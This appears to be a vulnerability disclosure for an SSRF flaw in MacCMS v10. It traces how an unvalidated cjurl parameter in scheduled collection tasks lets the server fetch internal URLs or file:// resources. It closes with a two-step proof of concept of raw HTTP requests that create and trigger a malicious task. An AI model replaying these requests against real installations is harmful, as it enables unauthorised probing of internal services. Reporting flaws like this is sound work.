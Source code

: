 # Vendor

magicblack

# Product

MacCMSv10

# version

v2025.1000.4050

# Download 

https://github.com/magicblack/maccms10

https://www.maccms.cn/down.html

# Vulnerability

SSRF

# Description

When a scheduled task with file set to cj is executed, the col_url method in the Cj controller is called. This method uses the Collection utility to fetch content from a URL specified in the cjurl parameter of the scheduled task. There is no validation to prevent the use of internal or local URLs, allowing an attacker to make the server send requests to arbitrary internal services.
# Analysis

Timming Controller (application/api/controller/Timming.php): The cj method calls the col_all method in the Cj controller. application/api/controller/Timming.php:82
```
82 |         $request->col_all($output);
```

Cj Controller (application/admin/controller/Cj.php): The col_all method calls the col_url method. application/admin/controller/Cj.php:134
```
134 |         $this->col_url($param);
```

col_url Method in Cj Controller: This method creates a new Collection object and calls its url_list and get_url_lists methods. The get_url_lists method will then use mac_curl_get to fetch the content from the URL specified in cjurl. application/admin/controller/Cj.php:151-152
```
151 |         $collection = new cjOper();
152 |         $urls = $collection->url_list($data);
```
Because there are no restrictions on the cjurl parameter, an attacker can specify an internal IP address or a file:// URI to access local resources.

Vulnerability Verification:

<img width="1056" height="509" alt="image" src="https://github.com/user-attachments/assets/c40cd6f3-263a-42aa-b9f3-9834d4e6608f" />

Then let's trigger this ssrf:

<img width="1401" height="344" alt="image" src="https://github.com/user-attachments/assets/b12216ec-ae7b-4bd4-b475-86c5359dcf4d" />

# POC
```
This is a two-step vulnerability that requires administrator privileges.

Step 1: Create a Malicious Scheduled Task

Log in as an administrator and create a new scheduled task with the following properties:

POST /admin1.php/admin/timming/info.html HTTP/1.1
Host: 192.168.1.81:8082
Content-Length: 147
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=XXX

__token__=b8d3535096a5784352faec9f17ad59d4&status=0&name=ssrf&des=&file=collect&param=cjurl%3Dhttp%3A%2F%2F192.168.1.81%3A9898%2F123.php%3Fid%3D111

Step 2: Trigger the Vulnerability
Send a GET request to the following URL to trigger the task:
GET /api.php/timming/index.html?enforce=1&name=ssrf HTTP/1.1
Host: 192.168.1.81:8082

```

